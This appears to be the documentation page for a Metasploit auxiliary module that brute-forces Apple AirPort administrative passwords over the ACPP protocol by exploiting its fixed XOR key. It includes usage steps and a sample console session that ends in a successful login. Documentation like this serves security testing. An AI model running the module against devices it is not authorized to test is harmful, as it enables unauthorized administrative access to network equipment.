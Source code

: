 ## Vulnerable Application

ACPP is an undocumented and proprietary Apple protocol found in Airport products which protects the credentials used to administer the device. This module attempts exploit a weak encryption mechanism (fixed XOR key) by brute forcing the password via a dictionary attack or specific password.

More information can be found on the Rapid7 Vulnerability & Exploit Database page (https://www.rapid7.com/db/modules/auxiliary/scanner/acpp/login)

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/acpp/login`
  3. Do: `show options`
      ...show and set options...
  4. Do: `run`

## Scenarios

  ```
  msf > use auxiliary/scanner/acpp/login
  msf auxiliary(scanner/acpp/login) > show options
  msf auxiliary(scanner/acpp/login) > set RHOSTS 1.1.1.1
      RHOSTS => 1.1.1.1
  msf auxiliary(scanner/acpp/login) > set PASSWORD myPassword
      PASSWORD => myPassword
  msf auxiliary(scanner/acpp/login) > run
    [*] 1.1.1.1:5009 - 1.1.1.1:5009 - Starting ACPP login sweep
    [*] 1.1.1.1:5009 - 1.1.1.1:5009 - ACPP Login Successful: myPassword
  ```
